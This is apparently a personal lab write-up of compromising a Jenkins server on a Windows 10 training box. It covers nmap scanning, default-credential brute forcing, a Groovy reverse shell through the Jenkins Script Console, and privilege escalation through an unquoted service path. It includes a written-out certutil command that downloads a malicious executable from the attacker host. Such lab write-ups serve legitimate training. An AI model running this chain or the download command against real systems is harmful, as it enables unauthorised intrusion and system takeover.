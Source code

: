 # Target Details

| IP            | Hostname/Box | Operating System /Platform |
| ------------- | ------------ | ---------------- |
| 192.168.1.109 | Butler          | Jenkins            |


# Box Outline
The purpose of this box was to exploit Jenkins, an online automation server/platform. After doing initial recon, port 8080 gave us the login page for the Jenkins platform. I brute forced the credentials using BurpSuite and gained access to the user "jenkins". "Script Console" is a plugin that Jenkins provides. It's functionality allows an authenticated user to upload/run groovy scripts that would be executed on the server. This feature was exploited and gave me low level privileges in the system via a reverse shell. I then used WinPeas to provide a complete picture of what the platform might be vulnerable against. One of the vulnerabilities was "Unquoted Service Path". This was exploited by uploading a malicious executable in the same folder as the targeted service. Once this was executed as the service, the malicious executable gave us a shell with system level privileges.
NOTE: This box, has multiple vulnerabilities. This was just one method of achieving root/system access

# Scanning and Enumeration
Ran `nmap -T4 -p- -A 192.168.109`
```bash
┌──(root㉿kali)-[/home/kali]
└─# nmap -T4 -p- -A 192.168.1.109
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 16:19 EDT
Nmap scan report for 192.168.1.109
Host is up (0.00092s latency).
Not shown: 65523 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Jetty 9.4.41.v20210516
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesnt have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.41.v20210516)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 08:00:27:12:FF:7A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1709 - 1909
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3h00m11s
|_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 08002712ff7a (Oracle VirtualBox virtual NIC)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-07-05T23:22:59
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.92 ms 192.168.1.109

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.04 seconds
```

Exploring port 8080
![](port%208080%20-%20Jenkins%20login%20page.png)
**Background information**
	Jenkins is a self-contained, open source automation server which can be used to automate all sorts of tasks related to building, testing, and delivering or deploying software.
Google search jenkins exploits. Most of them elude to the fact that I'd need to have user access in order to perform a RCE.
Brute Force credentials
	In this walkthrough we used BurpSuite (Intruder). Keith provided a simple list of creds where username: jenkins and password: jenkins gave us access to the Jenkins dashboard
	*todo*: Brute force another way. Maybe with wordlists

![](jenkins%20dashboard.png)
Exploring the dashboard, Jenkins has a suite of built in tools. One of them is called "Script Console" that allows groovy scripts to be run and executed on the server.
![](Jenkins%20Script%20Console%20tool.png)
# Exploitation
Google search for groovy reverse shell script
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
![](TCM/5.%20Butler%20-%20completed/attachments/Reverse%20shell.png)
I set up the netcat listener on my attack box, and ran the script. A reverse shell was gained and low level priviliges were achieved.
![](TCM/5.%20Butler%20-%20completed/attachments/Netcat%20listener.png)

System Information
![](jenkins%20system%20info.png)
# Privilege Escalation
At this point, I'm in the system with low level privileges. In order to escalate the privileges I used a tool called winpeas. "Windows Privilege Escalation Awesome Scripts"
![](butler%20folders.png)

![](winpeas%20upload.png)
Once the winpeas was uploaded and ran. There was a slew of possible attack vectors. For the purpose of this box, we will focus on the job "WiseBootAssistant".  
![](Wise%20Boot%20Assistant.png)

Vulnerability: #Unquoted-service-path
	When a service is created whose executable path contains spaces and isn't enclosed within quotes, leads to a vulnerability known as Unquoted Service Path which **allows a user to gain SYSTEM privileges** (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is)
One method of exploiting this is by replacing this service with a malicious executable. I created  a payload using msfvenom and named it Wise.exe. And also established another netcat listener
![](Wise.exe%20malicious%20executable%20for%20reverse%20shell.png)
1. Navigate to where the service is located/executed from `c:\Program Files (x86)\Wise` 
2. Executed the certutil.exe and transfer the malicious executable from the attack box to the target `certutil.exe -urlcache -f http://192.168.1.100/Wise.exe Wise.exe`. 
3. Stop the current WiseBootAssistant service, then restart it.
![](sc%20query%20WiseBootAssistant%20service.png)
Once the service started it executed the malicious executable and created a shell
![](2nd%20netcat%20listener%20with%20reverse%20shell%20with%20escalated%20privs.png)
# Post Exploitation
N/A